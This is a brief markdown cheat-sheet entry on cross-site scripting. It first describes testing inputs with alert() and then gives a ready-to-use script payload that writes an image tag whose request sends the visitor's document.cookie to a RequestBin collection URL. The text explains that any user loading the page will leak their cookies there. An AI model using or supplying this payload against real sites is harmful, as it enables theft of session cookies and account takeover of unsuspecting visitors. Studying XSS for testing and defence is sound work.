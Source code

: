 # XSS

#### Check a basic XSS vuln 
To check a xss vuln, try to input a basic js function somewhere like an ```alert()``` where you *can* like a form or 
an URL.

#### Exploit a basic XSS vuln
Send via the vulnerable input a simple script like this:
```html
<script>
    document.write('<img src=\'https://requestbin.fullcontact.com/xxxxx?cookie='+document.cookie+'\>admin</img>');
</script>
```

RequestBin is a simple service where you can receive information thank to the GET request arguments. We presume that 
when a user will go on the page with our script, it will send the cookie string to the website. 